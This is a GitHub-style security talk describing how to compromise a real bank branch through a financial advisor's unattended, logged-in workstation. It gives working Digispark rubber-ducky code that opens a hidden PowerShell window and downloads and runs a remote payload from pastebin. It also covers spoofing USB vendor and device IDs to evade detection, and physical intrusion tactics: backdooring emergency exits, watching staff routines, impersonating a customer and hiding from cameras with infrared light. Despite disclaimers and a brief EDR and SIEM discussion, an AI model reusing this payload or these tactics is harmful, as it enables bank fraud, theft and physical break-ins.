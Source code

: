 # Talk 1: Bank Security

## Description

This talk is about bank security, don't use it for illegal purpose ! I make this talk to help people to choose a secure bank and improve the bank security posture.

## Why

I visited my bank and met my financial advisor, when i did it i saw some cybersecurity problems, so i choose to talk about thoses problems.

## Talk

### Access to computer

1. I didn't pentest the web server, reverse the javascript in the web interface or reverse the mobile app, because it's a bank i suppose it's *secure*.
2. If i don't exploit a vulnerability on the server i should exploit a user vulnerability. I will not speak about fake bank application, phishing or social engineering to access to only one customer account.
3. The vulnerability is: my financial advisor ! Yes, my financial advisor does not comply with security policies and it's real problem ! He don't close the office door, don't lock the Windows session and keep the session to the bank application (with this application and this account we can performs bank transfer from customers bank account).
    - He leaves his office during interviews for several tens of seconds
    - He leaves his office between interviews for few minutes

### How to take the control of a computer with few seconds

 - Simply by plugging in a [rubber ducky](https://lab401.com/products/rubber-ducky) USB stick

> What is the rubber ducky USB stick ?
>> The Rubber Ducky USB stick is a type of USB device that is designed to emulate a keyboard and execute pre-programmed scripts when plugged into a computer. It looks like a regular USB flash drive, but its functionality is quite different.
>> When connected to a computer, the Rubber Ducky can send keystrokes at a very high speed, allowing it to perform tasks such as opening a command prompt, executing commands, or downloading malware without the user's knowledge. This makes it a popular tool for penetration testers and security researchers to demonstrate vulnerabilities in systems, as well as for malicious actors to exploit those vulnerabilities.
>> The device is often used in security training and awareness programs to illustrate the importance of physical security and the potential risks associated with USB devices.

#### How to build you own sneaky rubber ducky

 - Buy a [Digispark](https://www.amazon.fr/AZDelivery-Digispark-Kickstarter-d%C3%A9veloppement-compatible/dp/B01N7SGC1I/ref=sr_1_1_sspa?adgrpid=1364494866886671&dib=eyJ2IjoiMSJ9.a_zlnx8CDHiTiw5zWe84asWUApy6p6W48dBlv8WL41sYg6_Mzg4hhjx0PU_Y4SGOxyjB2a41tZSxNGzGm1G2SWxInTYzjo85b4P-cCSLxJu-fAd8X-VK8yI_0qyqdrEk4jvI_RNy9RW0I9tlibKRJoelIngWissoKjBtuo_tzbaPmcO2LY3Cnasl_s6NxZzXxAu6SlMygwqdZ6XG8YXrmf9k0ZxrKtqZp9U5LV6PEsnRX4ye6AA0TmveIwHy0_WjOKMv3fI1Lio-s4pW-psrw3LBO8VaHvEoyv9tjtgkQKs.00oPPHcg-eaUa4nHLYkowHAjejjkr0X5EoGj1OM31FQ&dib_tag=se&hvadid=85281187819663&hvbmt=be&hvdev=c&hvlocphy=126810&hvnetw=s&hvqmt=e&hvtargid=kwd-85281456177274%3Aloc-66&hydadcr=28259_1882664&keywords=digispark&msclkid=3a600951561e187ca1de6e227ee642d5&nsdOptOutParam=true&qid=1735600856&sr=8-1-spons&sp_csd=d2lkZ2V0TmFtZT1zcF9hdGY&psc=1).
 - Install the [Arduino IDE](https://www.arduino.cc/en/software).
 - Open the Arduino IDE, click on *File* -> *Preferences*, add `https://raw.githubusercontent.com/digistump/arduino-boards-index/master/package_digistump_index.json` in the *Additional boards manager URLs:*, click *ok*.
 - Click on *Tools* -> *Board:* and click on *Boards manager...*, in the search bar write `Digistump` and click on the `Digistump AVR Boards by Digistump`.
 - Click on *Tools* -> *Programmer:* and select `Micronucleos` as bootloader (it's a very small and fast bootloader for Arduino compatible boards).

Now, you can put your code:

```c
#include <DigiKeyboard.h>

// https://github.com/digistump/DigistumpArduino/blob/111396ffe5163c3613b9315cbea1a3eabc9ba6dc/digistump-avr/libraries/DigisparkKeyboard/DigiKeyboard.h#L66

void setup() {
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(100);
  DigiKeyboard.sendKeyStroke(21, MOD_GUI_LEFT);
  DigiKeyboard.delay(1000);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(52, MOD_SHIFT_LEFT);
  DigiKeyboard.sendKeyStroke(80);
  DigiKeyboard.sendKeyStroke(80);

  DigiKeyboard.print("powershell -windowstyle hidden -Command ");
  DigiKeyboard.sendKeyStroke(79);
  DigiKeyboard.print("iex(iwr -Uri 'https://pastebin.com/raw/bcjhnYKG').Content");
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {}
```

 - Click on the *Upload* button (a *right arrow* button)
 - The Arduino IDE will compile the code
 - When the code is compiled, it will wait 60 seconds a new plugged Digispark, so you may plug your Digispark on a USB port
 - The Arduino IDE will flash the firmware
 - The Digispark will play the code

Okay, so we have the Rubber Ducky, but we have some limitations: 512 bytes of RAM and we have a good payload for *qwerty* keyboard but not for others keyboards. For qwerty keyboard and azerty keyboard i have developed a little [python script](https://github.com/mauricelambert/DigisparkRubberDuckyExecuteCommand) to generate your own code to execute a command on the victim computer without the RAM limitation.

 - When a new keyboard is plugged, the vendor and the device ID are stored on the Windows computer, if you want to be undetectable you should modify the `%LOCALAPPDATA%\Arduino15\packages\digistump\hardware\avr\1.6.7\libraries\DigisparkKeyboard\usbconfig.h` file, line 232 to change the vendor ID: `USB_CFG_VENDOR_ID` ([web page](https://devicehunt.com/all-usb-vendors) to identify a vendor ID) and line 241 change the device ID: `USB_CFG_DEVICE_ID` ([web page](https://www.usbvendor.com/) to identify a device ID).

You can list your Vendor ID and your Product ID with the following powershell code:

```powershell
Get-WmiObject Win32_PnPEntity | Where-Object {$_.PNPClass -match "Mouse|Keyboard"} | ForEach-Object {
    $hwid = $_.HardwareID | Where-Object {$_ -match "(HID|USB)\\VID_.*"}
    if ($hwid) {
        $v_id = ($hwid -split '&')[0] -replace '(HID|USB)\\VID_',''
        $p_id = ($hwid -split '&')[1] -replace 'PID_',''
        [PSCustomObject]@{
            Name = $_.Name
            VendorID = $v_id
            ProductID = $p_id
        }
    }
}

Get-ChildItem -Path HKLM:\System\CurrentControlSet\Enum\USB\ | ForEach-Object {
    $v_id = ((($_ -split '&')[0] -replace '(HID|USB)\\VID_','') -split '\\')[-1]
    $p_id = ($_ -split '&')[1] -replace 'PID_',''
    [PSCustomObject]@{
        VendorID = $v_id
        ProductID = $p_id
    }
}
```

#### What about detection and protection

In this case the better tools to mitigate the vulnerability is the EDR:
 - EDR should detect the new device (even if the device ID is already now because the driver is different), should detect the `Win+R`, should detect writing at 40 characters per second, should detect the `powershell` process creation, should detect the *hidden windows*, should detect the code downloaded from internet and executed **BUT** i try one of the best-selling EDR and there is no detection and no protection, only a telemetry for the process and nothing else... This EDR must have really, really good sales teams...
 - SIEM can detect a new device (and probably not if the device ID is already know), so you don't have detection and don't have response (with SOAR or other tools to block the attack).

### Access to the office

The bank have 3 cameras on the same corridor, all people **should** use this corridor, but other ways to enter exists...

 - multiples windows (not very easy to use for a sneaky intrusion)
 - 2 emergency exits
     1. *Backdoor* the door during a legit visit
     2. Open the door from the outside with *some specific techniques*

### When

Take few days to know the financial advisor habits, you should identify good time for the intrusion.

### Others ways

 - Secretary have leaked the name of other customer, with this name you can use it to take a new appointment, use infrared light to hide your head on camera and exploit the vulnerability when financial advisor leave the office for few seconds during the interview.
 - When the financial advisor's screens are visible from the outside, it is possible to retrieve sensitives informations to performs the same attack.

## Conclusion

We have a vulnerability: the unlocked and unattended financial advisor computer with the authenticated financial advisor session. We have an access from the outdoor and we know the best time to do it... So, it's possible to pwn the bank...

Since few day, i have changed my bank, i think people should choice a secure bank and i hope this talk will help you to know which bank is secure.

> Don't use this talk for illegal purpose ! It's probably easy, in your dreams, to perform the attack described in this talk but in the real life is not and if you try you will go to jail. Keep in mind: if you have skills to perform this attack you will have a very good salary in a completely legal way so you won't even think of this idea.
